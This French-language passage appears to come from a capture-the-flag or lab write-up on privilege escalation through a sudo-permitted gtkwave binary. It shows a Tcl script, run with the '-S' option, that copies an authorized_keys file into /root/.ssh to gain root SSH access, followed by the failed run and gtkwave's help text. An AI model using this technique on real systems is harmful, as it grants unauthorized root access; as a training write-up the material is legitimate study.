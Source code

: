 D'après la manpage du programme, on peut exécuter un script Tcl avec l'option `-S`. J'ai écrit ceci :

```tcl
exec mkdir -p /root/.ssh
exec cp /tmp/authorized_keys /root/.ssh
puts "victory"
```

Sans trop de surprises ça ne marche pas, car aucun serveur graphique ne tourne sur la VM (si le nom du binaire commence par `gtk` c'est un signe) :

```console
pycrtlake@PyCrt:~$ sudo /usr/bin/gtkwave -S script.tcl test.vcd 
Could not initialize GTK!  Is DISPLAY env var/xhost set?

Usage: /usr/bin/gtkwave [OPTION]... [DUMPFILE] [SAVEFILE] [RCFILE]

  -n, --nocli=DIRPATH        use file requester for dumpfile name
  -f, --dump=FILE            specify dumpfile name
  -F, --fastload             generate/use VCD recoder fastload files
  -o, --optimize             optimize VCD to FST
  -a, --save=FILE            specify savefile name
  -A, --autosavename         assume savefile is suffix modified dumpfile name
  -r, --rcfile=FILE          specify override .rcfile name
  -d, --defaultskip          if missing .rcfile, do not use useful defaults
  -D, --dualid=WHICH         specify multisession identifier
  -l, --logfile=FILE         specify simulation logfile name for time values
  -s, --start=TIME           specify start time for LXT2/VZT block skip
  -e, --end=TIME             specify end time for LXT2/VZT block skip
  -t, --stems=FILE           specify stems file for source code annotation
  -c, --cpu=NUMCPUS          specify number of CPUs for parallelizable ops
  -N, --nowm                 disable window manager for most windows
  -M, --nomenus              do not render menubar (for making applets)
  -S, --script=FILE          specify Tcl command script file for execution
  -T, --tcl_init=FILE        specify Tcl command script file to be loaded on startup
  -W, --wish                 enable Tcl command line on stdio
  -R, --repscript=FILE       specify timer-driven Tcl command script file
  -P, --repperiod=VALUE      specify repscript period in msec (default: 500)
  -X, --xid=XID              specify XID of window for GtkPlug to connect to
  -1, --rpcid=RPCID          specify RPCID of GConf session
  -2, --chdir=DIR            specify new current working directory
  -3, --restore              restore previous session
  -4, --rcvar                specify single rc variable values individually
  -5, --sstexclude           specify sst exclusion filter filename
  -I, --interactive          interactive VCD mode (filename is shared mem ID)
  -C, --comphier             use compressed hierarchy names (slower)
  -g, --giga                 use gigabyte mempacking when recoding (slower)
  -L, --legacy               use legacy VCD mode rather than the VCD recoder
  -v, --vcd                  use stdin as a VCD dumpfile
  -O, --output=FILE          specify filename for stdout/stderr redirect
  -z, --slider-zoom          enable horizontal slider stretch zoom
  -V, --version              display version banner then exit
  -h, --help                 display this help then exit
  -x, --exit                 exit after loading trace (for loader benchmarks)

VCD files and save files may be compressed with zip or gzip.
GHW files may be compressed with gzip or bzip2.
Other formats must remain uncompressed due to their non-linear access.
Note that DUMPFILE is optional if the --dump or --nocli options are specified.
SAVEFILE and RCFILE are always optional.

Report bugs to <bybell@rocketmail.com>.
```
